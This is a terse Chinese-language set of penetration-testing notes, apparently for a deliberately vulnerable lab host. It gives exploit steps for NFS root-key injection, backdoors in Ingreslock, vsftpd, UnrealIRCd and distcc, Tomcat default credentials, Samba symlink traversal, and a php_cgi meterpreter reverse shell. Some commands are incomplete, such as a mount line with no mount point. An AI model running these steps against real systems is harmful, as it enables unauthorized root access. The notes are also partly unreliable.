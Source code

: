 # Kali Linux #
## Ingreslock后门漏洞 ##
**Port**: 1524  
telnet直接获取Root权限
## Linux NFS共享目录配置漏洞 ##
Step1：查看目标主机上NFS服务是否开启：   
```
rpcinfo -p 192.168.1.3   
```   
Step2:显示指定的远程共享目录列表：   
```
showmount -e 192.168.1.3
```   
Step3:生成rsa公钥：   
```
ssh-keygen
```   
Step4:
```
mkdir /tmp/tool 建立tool目录   
mount -t nfs 192.168.1.3:/tmp/tool,把192.168.1.3根目录挂载到/tmp/tool目录下   
```    
Step5：把生成的公钥追加到靶机的authorized_keys下，实现ssh免密码登录：
```
cat  /root/.ssh/id_rsa.pub>>/tmp/tool/root/.ssh/authorized_keys
```
Step6:连接
```
ssh root@ip
```
## Metasploit溢出vsftp特权提升漏洞 ##
**Port:**21
## Metasploit溢出UnrealIRCd后门漏洞 ##
**Port:**6667
## Tomcat管理台默认口令漏洞 ##
**Port:**8180    
**Service:** ApacheTomcat/CoyoteJSP engine1.1   
**Default:**tomcat tomcat
## sysmlink 默认配置目录遍历漏洞 ##
**Port:**:445 139   
**Service:**Samba   
**Payload:**auxiliary/admin/smb/samba_symlink_traversal
```
set SMBSHARE tmp SAM可写文件
smbclient //ip/tmp 
cd rootfs 进入root目录
cat /*
```
## Metasploit利用php_cgi漏洞 ##
**Dir:**cgi-bin   
**Exploit:**exploit/multi/php_cgi_arg_injection   
**Payload:**   
```
set PAYLOAD /php/meterpreter/reverse_tcp
```
## Distcc后门漏洞 ##
**Port:**3632   
**Exploit:**use exploit/unix/misc/distcc_exec   
